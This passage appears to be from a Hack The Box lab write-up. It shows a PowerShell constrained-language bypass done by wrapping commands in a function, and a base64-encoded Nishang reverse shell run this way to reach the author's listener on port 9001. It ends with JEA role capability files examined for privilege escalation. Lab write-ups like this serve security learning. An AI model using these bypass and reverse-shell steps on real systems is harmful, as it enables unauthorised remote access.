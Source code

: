 The command `Get-Command` shows eight commands that are allowed, but constrained language can be be bypassed by creating a function and executing restricted commands with that:
```
[10.10.10.210]: PS> function test { whoami }
[10.10.10.210]: PS> test
htb\k.svensson
```
```
[10.10.10.210]: P> &{whoami}
htb\k.svensson
```

The script _Invoke-PowerShellTcpOneLine.ps1_ from the **Nishang scripts** will be used as the command to execute:
```
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0
```

Executing reverse shell command as a function:
```
&{powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgB(...) }
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as _k.svensson_ without any constraints.

## Privilege Escalation

In the home directory _C:\Users\k.svensson\Documents_ are two interesting files:
- _jea_test_account.psrc_
- _jea_test_account.pssc_

These files are for the [Just Enough Administration (JEA)](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.2) technology to enable delegated administration with PowerShell.

A _.psrc_ file is for [JEA Role Capabilities](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/role-capabilities?view=powershell-7.2) and a _.pssc_ file is for [JEA Session Configurations](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/session-configurations?view=powershell-7.2).

**JEA Role Capabilities** of the user _jea_test_account_:
```
type jea_test_account.psrc | select-string -notmatch "^#" | select-string .
```
```
@{
GUID = '08c0fdac-36ef-43b5-931f-68171c4c8200'
Author = 'cube0x0'
Copyright = '(c) 2020 cube0x0. All rights reserved.'
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like
"C:\ProgramData\*" ; if($check) {get-content $Path}} }
}
```


[10.10.10.210]: PS> $ExecutionContext.SessionState.LanguageMode